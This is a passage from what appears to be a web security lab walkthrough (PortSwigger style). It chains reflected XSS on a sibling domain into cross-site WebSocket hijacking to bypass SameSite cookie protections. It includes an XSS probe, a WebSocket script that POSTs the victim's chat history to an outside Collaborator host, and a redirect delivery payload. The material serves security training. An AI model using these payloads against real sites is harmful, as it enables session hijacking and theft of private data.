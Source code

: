 ```ad-success
    

### Identify an additional vulnerability in the same "site"

1. In Burp, study the proxy history and notice that responses to requests for resources like script and image files contain an `Access-Control-Allow-Origin` header, which reveals a sibling domain at `cms-YOUR-LAB-ID.web-security-academy.net`.
    
2. In the browser, visit this new URL to discover an additional login form.
    
3. Submit some arbitrary login credentials and observe that the username is reflected in the response in the `Invalid username` message.
    
4. Try injecting an XSS payload via the `username` parameter, for example:
    ~~~
    <script>alert(1)</script>
    ~~~
1. Observe that the `alert(1)` is called, confirming that this is a viable [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vector.
    
6. Send the `POST /login` request containing the XSS payload to Burp Repeater.
    
7. In Burp Repeater, right-click on the request and select **Change request method** to convert the method to `GET`. Confirm that it still receives the same response.
    
8. Right-click on the request again and select **Copy URL**. Visit this URL in the browser and confirm that you can still trigger the XSS. As this sibling domain is part of the same site, you can use this XSS to launch the CSWSH attack without it being mitigated by SameSite restrictions.
    

### Bypass the SameSite restrictions

1. Recreate the CSWSH script that you tested on the exploit server earlier.
    ~~~
    <script> var ws = new WebSocket('wss://YOUR-LAB-ID.web-security-academy.net/chat'); ws.onopen = function() { ws.send("READY"); }; ws.onmessage = function(event) { fetch('https://YOUR-COLLABORATOR-PAYLOAD.oastify.com', {method: 'POST', mode: 'no-cors', body: event.data}); }; </script>
    ~~~
1. URL encode the entire script.
    
3. Go back to the exploit server and create a script that induces the viewer's browser to send the `GET` request you just tested, but use the URL-encoded CSWSH payload as the `username` parameter. The following is one possible approach:
    ~~~
    <script> document.location = "https://cms-YOUR-LAB-ID.web-security-academy.net/login?username=YOUR-URL-ENCODED-CSWSH-SCRIPT&password=anything"; </script>
    ~~~
1. Store and view the exploit yourself.
    
5. In Burp, go back to the **Collaborator** tab and click **Poll now**. Observe that you've received a number of new interactions, which contain your entire chat history.
    
6. Go to the **Proxy > HTTP history** tab and find the WebSocket handshake request that was triggered by your script. This should be the most recent `GET /chat` request.
    
7. Confirm that this request does contain your session cookie. As it was initiated from the vulnerable sibling domain, the browser considers this a same-site request.
    

### Deliver the exploit chain

1. Go back to the exploit server and deliver the exploit to the victim.
    
```